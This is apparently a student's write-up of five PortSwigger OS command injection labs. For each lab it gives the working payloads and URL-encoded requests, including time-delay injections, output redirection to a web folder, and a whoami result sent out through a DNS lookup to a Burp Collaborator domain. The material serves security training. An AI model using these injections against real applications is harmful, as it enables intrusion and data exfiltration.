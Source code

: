 # OS command injection 



### Table of Contents

- [OS command injection, simple case](#os-command-injection-simple-case)
- [Blind OS command injection with time delays](#blind-os-command-injection-with-time-delays)
- [Blind OS command injection with output redirection](#blind-os-command-injection-with-output-redirection)
- [Blind OS command injection with out-of-band interaction](#blind-os-command-injection-with-out-of-band-interaction)
- [Blind OS command injection with out-of-band data exfiltration](#blind-os-command-injection-with-out-of-band-data-exfiltration)


### [OS command injection, simple case](https://portswigger.net/web-security/os-command-injection/lab-simple)

Goal : execute the `whoami` command to determine the name of the current user.

- intercept and modify a request that checks the stock level.

- append `|whoami` or `;whoami` to the `storeId` parameter 

- you can use this also`productId=1%26+whoami+%23&storeId=1` it's encoded with URL encoding (`productId=1& whoami #&storeId=1`)

- check the name in the response

  



<img src=".\command_injection_img\1_1.png" style="zoom:80%;" />





------







### [Blind OS command injection with time delays](https://portswigger.net/web-security/os-command-injection/lab-blind-time-delays)

Goal : exploit the blind OS command injection vulnerability to cause a 10 second delay.

- go to `submit feedback`

- I tried a lot of payloads in different parameters and finally these payloads solved the lab
  ```
  karim&`ping -c 10 127.0.0.1`#&
  OR
  karim&`sleep 10`#&
  ```

- put any one in the name or email parameter and send the request







------



### [Blind OS command injection with output redirection](https://portswigger.net/web-security/os-command-injection/lab-blind-output-redirection)

Goal : execute the `whoami` command and retrieve the output.

- go to `submit feedback`

- write the payload from previous lab `%26+sleep+10+%23+` (`& sleep 10 # `) in the email parameter

- notice that it takes 10 seconds to respond , so this parameter is vulnerable

- append the payload to email parameter with URL encoding
  ```
  & whoami > /var/www/images/whoami.txt #
  ```

- open any image in new tab , replace its name with whoami.txt



![](.\command_injection_img\2_1.png)





------





### [Blind OS command injection with out-of-band interaction](https://portswigger.net/web-security/os-command-injection/lab-blind-out-of-band)

Goal :  exploit the blind OS command injection vulnerability to issue a DNS lookup to Burp Collaborator.

- go to `submit feedback`

- submit any values

- from `Burp collaborator client `  click `copy to clipboard` 

- send this request `POST /feedback/submit ` to burp repeater

- add the payload to the email parameter (we know that is the vulnerable parameter from the previous labs)
  ```bash
  &nslookup <your_own>.burpcollaborator.net #&
  ```

- but encode it with URL encoding

- the request body will look like this
  ```bash
  csrf=UfTw8aBwMGPhF6MGrJy2VBawdAB06GQ5&name=karim&email=123%40gmail.com%26nslookup%20y21kg9ifjgutl206yib4mhvtrkxdl2.burpcollaborator.net%20%23&subject=123&message=123
  ```

  <img src=".\command_injection_img\3_1.png" style="zoom:80%;" />

- send the request

- if you go to `Burp collaborator client` and click pull now , you will see the DNS request to our domain

<img src=".\command_injection_img\3_2.png" style="zoom:80%;" />



------





### [Blind OS command injection with out-of-band data exfiltration](https://portswigger.net/web-security/os-command-injection/lab-blind-out-of-band-data-exfiltration)

Goal : execute the `whoami` command and exfiltrate the output via a DNS query to Burp Collaborator. 

- go to `submit feedback`

- submit any values

- from `Burp collaborator client `  click `copy to clipboard` 

- send this request `POST /feedback/submit ` to burp repeater

- add the payload to the email parameter (we know that is the vulnerable parameter from the previous labs)

  ```bash
  & nslookup `whoami`.79etnipoqp12sb7f5ridtq22yt4nsc.burpcollaborator.net #&
  ```

- but encode it with URL encoding

- the request body will look like this
  ```bash
  csrf=5mJNRXmKKLVevRpFlC9NqvcKUm5LwMJH&name=karim&email=123%40g.com%26%20nslookup%20%60whoami%60.79etnipoqp12sb7f5ridtq22yt4nsc.burpcollaborator.net%20%23&subject=123&message=123
  ```

- send the request

- if you go to `Burp collaborator client` and click pull now , you will see the DNS request to our domain



<img src=".\command_injection_img\4_1.png" style="zoom:80%;" />







------



